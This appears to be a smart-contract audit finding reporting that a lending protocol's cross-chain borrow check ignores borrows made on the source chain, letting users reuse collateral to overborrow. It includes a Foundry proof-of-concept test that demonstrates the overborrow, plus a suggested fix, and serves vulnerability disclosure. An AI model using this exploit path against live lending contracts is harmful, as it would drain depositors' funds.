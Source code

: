 Sweet Sandstone Squid

High

# Poor state synchronization across chains will allow users to borrow past the allowed amount for their supplied collateral

### Summary

Not using the correct total collateral and total borrowed amounts in `CrossChainRouter::_handleBorrowCrossChainRequest` and `CrossChainRouter::borrowCrossChain` will cause overborrowing across chains as users will be able to use the same collateral to borrow significantly more than the set collateral factor allows.

### Root Cause

This issue comes about as a result of how the source and destination chains communicate state in [borrowCrossChain](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L138) and [_handleBorrowCrossChainRequest](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L617). 
Take a cross chain borrow from `Chain A` to `Chain B`. In chain A's router, the `borrowCrossChain` function gets the total collateral value supplied from the `LendStorage` contract and passes it into the required layerzero send function
```solidity
function borrowCrossChain(uint256 _amount, address _borrowToken, uint32 _destEid) external payable {
         //...
@>      (, uint256 collateral) =
              lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(_lToken), 0, 0);

        // Send message to destination chain with verified sender
        // borrowIndex of 0 initially - will be set correctly on dest chain
        _send(
            _destEid,
            _amount,
            0, // Initial borrowIndex, will be set on dest chain
@>          collateral,
            msg.sender,
            destLToken,
            address(0), // liquidator
            _borrowToken,
            ContractType.BorrowCrossChain
        );
       //...
 }
```
The problem is that this collateral is the gross collateral value i.e including collateral that the user has already borrowed on. When the `_handleBorrowCrossChainRequest` function on `Chain B` is called with the payload sent from `Chain A`, it uses this gross collateral to determine if the borrow will cause undercollateralization
```solidity
function _handleBorrowCrossChainRequest(LZPayload memory payload, uint32 srcEid) private {
         //...

        // Get existing borrow amount
        (uint256 totalBorrowed,) = lendStorage.getHypotheticalAccountLiquidityCollateral(
            payload.sender, LToken(payable(payload.destlToken)), 0, payload.amount
        );

        // Verify the collateral from source chain is sufficient for total borrowed amount
        require(payload.collateral >= totalBorrowed, "Insufficient collateral");
       //...
}

```
It does this by getting the total borrowed value tied to the user's account, and compares it to the above gross collateral value. But it doesn't take into account the borrowed value on the storage contract of `Chain A`, only on the `LendStorage` contract of `Chain B`. 
Essentially, the value returned by `getHypotheticalAccountLiquidityCollateral` on the destination chain doesn't account for borrows made on the source chain because the cross-chain state synchronization is incomplete. While the protocol maintains a record of cross-chain borrows, it doesn't properly integrate this data into the borrow validation process. This will allow users to borrow much more value than their supplied collateral.

### Internal Pre-conditions

NIL

### External Pre-conditions

NIL

### Attack Path

1. User supplies 100e18 tokens on Chain A
2. User borrows 75e18 tokens on Chain A (max allowed by 0.75 collateral factor)
3. The test verifies that `getMaxBorrowAmount` returns 0 on both chains, confirming no additional borrowing capacity
4. Despite this, the user successfully borrows another 75e18 tokens on Chain B
5. This results in 150e18 tokens borrowed against only 100e18 collateral
6. The user can repeat this until they are satisfied

### Impact

Users will steal supplied collateral and create severely undercollateralized positions

### PoC

Add the below test function in `TestBorrowingCrossChain.t.sol`
```solidity
function testUserCanBorrowPastCollateralFactorLimit() public {
        uint256 supplyAmount = 100e18;
        address user = makeAddr("user");

        vm.startPrank(user);
        address token = supportedTokensA[0];
        address lToken = lendStorageA.underlyingTolToken(token);

        // Mint tokens to user
        ERC20Mock(token).mint(user, supplyAmount);
        IERC20(token).approve(address(coreRouterA), type(uint256).max);  

        //supply tokens to coreRouter and borrow max allowed amount
        coreRouterA.supply(supplyAmount, token);
        uint256 borrowAmount = supplyAmount * 75 / 100; //max borrow amount allowed according to collateral factor of 0.75
        coreRouterA.borrow(borrowAmount, token);
        vm.stopPrank();

        //add funds to coreRouterB to enable user to borrow cross chain
        _supplyB(supplyAmount);

        //check that user max borrowable amount is 0
        assertEq(lendStorageA.getMaxBorrowAmount(user, lToken), 0);
        assertEq(lendStorageB.getMaxBorrowAmount(user, lendStorageA.underlyingToDestlToken(token, CHAIN_B_ID)), 0);

        //check that the destination underlying token balance of the user is 0 before borrow
        address destToken = lendStorageA.underlyingToDestUnderlying(token, CHAIN_B_ID); 
        uint256 initialTokenBalance = IERC20(destToken).balanceOf(user);
        assertEq(initialTokenBalance, 0); 

        //user borrows across chain when they should not be able to
        vm.deal(address(routerA), 1 ether); //for layerZero fees
        vm.startPrank(user);
        routerA.borrowCrossChain(borrowAmount, token, CHAIN_B_ID);
        vm.stopPrank();

        //get and check borrows, collaterals and overall user borrow state
        LendStorage.BorrowMarketState memory userBorrowState = lendStorageA.getBorrowBalance(user, lToken);
        uint256 srcTotalBorrowedAmountInUnderlyingToken = userBorrowState.amount * LTokenInterface(lToken).borrowIndex() / userBorrowState.borrowIndex;
        uint256 srcTotalSuppliedAmountInUnderlyingToken = lendStorageA.getTotalSupplied(user, lToken);

        (,,uint256 borrowedPrinciple,,,) = lendStorageA.crossChainBorrows(user, token, 0);
        (,,uint256 collateralPrinciple,,,) = lendStorageB.crossChainCollaterals(user, destToken, 0);
        assertEq(borrowedPrinciple, collateralPrinciple); //they're the same because the dest chain collateral isn't real and just corresponds with the borrowedPrinciple of the source chain

        console2.log("Source chain total borrowed amount:", srcTotalBorrowedAmountInUnderlyingToken);
        console2.log("Source chain total supplied amount: ", srcTotalSuppliedAmountInUnderlyingToken);
        console2.log("Source chain cross chain borrowed amount:", borrowedPrinciple);
        console2.log("Destination chain cross chain supplied amount: ", collateralPrinciple);
        console2.log("Source token balance of user: ", ERC20Mock(token).balanceOf(user));
        console2.log("Destination token balance of user: ", ERC20Mock(destToken).balanceOf(user));     
    }
```

### Mitigation

Modify the cross-chain borrow validation to account for all existing borrows, either via the collateral (by returning only unused collateral) or through the borrowed amount directly.